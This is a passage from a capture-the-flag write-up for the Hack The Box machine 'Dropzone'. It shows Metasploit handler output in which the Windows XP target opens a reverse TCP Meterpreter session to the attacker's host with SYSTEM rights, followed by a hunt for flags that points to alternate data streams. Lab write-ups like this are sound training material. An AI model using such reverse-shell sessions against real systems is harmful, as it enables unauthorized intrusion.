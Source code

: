 The handler we had set up on Metasploit gives us a Meterpreter session within a couple seconds:

```shell-session
msf5 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.14.37:9999
[*] Sending stage (179779 bytes) to 10.10.10.90
[*] Meterpreter session 1 opened (10.10.14.37:9999 -> 10.10.10.90:1035) at 2019-08-31 01:47:45 +0200

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : DROPZONE
OS              : Windows XP (Build 2600, Service Pack 3).
Architecture    : x86
System Language : en_US
Domain          : HTB
Logged On Users : 1
Meterpreter     : x86/windows
meterpreter >
```

---

## Hunting for flags: alternate data streams

Now we can navigate freely on the disk to go see where the flags are, on the Administrator's desktop are a "flags" folder and a fake root.txt:

```shell-session
C:\Documents and Settings\Administrator\Desktop>dir
dir
Volume in drive C has no label.
Volume Serial Number is 7CF6-55F6

Directory of C:\Documents and Settings\Administrator\Desktop

30/08/2019  09:32 ��    <DIR>          .
30/08/2019  09:32 ��    <DIR>          ..
30/08/2019  09:23 ��    <DIR>          flags
10/05/2018  10:12 ��                31 root.txt
1 File(s)             31 bytes
3 Dir(s)   7.240.634.368 bytes free

c:\documents and settings\administrator\desktop>more root.txt
more root.txt
It's easy, but not THAT easy...
```

The flags folder has yet another text file that apparently doesn't tell us anything useful, except for one little detail:

```shell-session
C:\Documents and Settings\Administrator\Desktop\flags>more "2 for the price of 1!.txt"
more "2 for the price of 1!.txt"
For limited time only!

Keep an eye on our ADS for new offers & discounts!
```
